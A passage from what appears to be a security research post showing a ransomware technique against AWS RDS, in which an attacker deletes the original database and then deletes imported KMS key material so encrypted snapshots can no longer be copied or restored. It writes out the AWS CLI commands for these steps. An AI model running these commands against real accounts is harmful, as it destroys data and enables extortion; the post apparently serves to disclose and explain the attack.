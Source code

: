 Looking in the console, the snapshot is now available. At this point, the attacker can delete the original database and snapshots. 

![image11](/img/kms-ransomware/snap-in-console.png){: width="720" .mx-auto .d-block }

Now let's see what happens when we delete the imported key material and try to perform actions with the snapshot: 

```
aws kms delete-imported-key-material --key-id <key-id>

```

![image12](/img/kms-ransomware/delete-imported-key.png){: width="720" .mx-auto .d-block }

```
aws rds copy-db-snapshot --source-db-snapshot-identifier ransom-pasturedb --target-db-snapshot-identifier ransom-pasturedb2
```

![image13](/img/kms-ransomware/copydbfail.png){: width="720" .mx-auto .d-block }

```
aws rds restore-db-instance-from-db-snapshot --db-instance-identifier ransomedDB --db-snapshot-identifier ransom-pasturedb
``` 

![image14](/img/kms-ransomware/restore-db.png){: width="720" .mx-auto .d-block }

### **EBS**

Similarly in EBS, volumes cannot be encrypted directly. These steps are similar to the RDS steps.

